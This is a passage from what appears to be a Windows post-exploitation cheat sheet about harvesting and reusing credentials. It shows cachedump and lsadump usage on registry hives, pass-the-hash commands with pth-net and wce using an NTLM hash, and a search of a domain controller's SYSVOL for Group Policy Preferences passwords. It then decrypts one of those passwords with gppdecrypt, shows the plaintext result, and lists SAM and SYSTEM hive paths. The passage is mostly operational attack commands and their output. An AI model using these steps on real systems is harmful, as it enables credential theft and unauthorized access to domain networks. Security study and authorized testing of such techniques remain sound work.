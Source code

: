 ```
usage: /usr/bin/cachedump <system hive> <security hive>
```

### Dump LSA secrets

```
usage: /usr/bin/lsadump <system hive> <security hive>
```

Here, you will find account passwords for services that are set to run under actual Windows user accounts (as opposed to Local System, Network Service and Local Service), the auto-logon password and more.

If the Windows host is part of a domain, you will find the domain credentials of the machine account with which you can authenticate to the domain to list domain users and admins as well as browsing shares and so on.

**How to use credentials**

Use [pth](http://code.google.com/p/passing-the-hash/) on Kali Linux or [wce](http://www.ampliasecurity.com/research/wcefaq.html) on your own Windows system to use these credentials.

```
pth-net rpc user -U 'securus\john-pc$%aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f' -S dc1.securus.corp.com
```

Browse shares for passwords, look on the domain controller for passwords in Group Policy Preferences (GPP) that can be [decrypted](http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html):
```
C:\> wce.exe -s john-pc:securus:aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
C:\> findstr /S cpassword \\dc1.securus.corp.com\sysvol\*.xml
\\192.168.122.55\sysvol\securus.corp.com\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml: ="" description="" cpassword="1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs" changeLogon="0" noChange="0" neverExpires="0" acctDisabled="1" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/>
C:\> ruby gppdecrypt.rb 1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs
1q2w3e4r5t
```

### Dump password hashes

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.
```
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
